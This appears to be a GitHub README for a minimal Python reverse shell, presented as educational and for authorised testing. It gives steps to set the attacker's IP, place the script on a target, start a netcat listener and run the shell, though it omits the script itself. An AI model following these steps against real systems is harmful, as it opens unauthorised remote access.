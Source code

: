 <p align="center">
  <h1 align="center"> A minimal Python Reverse Shell: code and explanation of how it works. For Educational Purposes Only. Use only on hosts/networks you own or have permission to test. </h1>
</p>

## 🚀 Quick Start
## 1. Edit 'python-rev-shell.py' file, adding your attacker machine's IP address and port.
## 2. Download 'python-rev-shell.py' file to the target machine.
## 3. Set up a listener on the attacker machine:
```bash
nc -nlvp 1234
```
## 4. Run the script on the target machine:
```bash
python3 python-rev-shell.py
```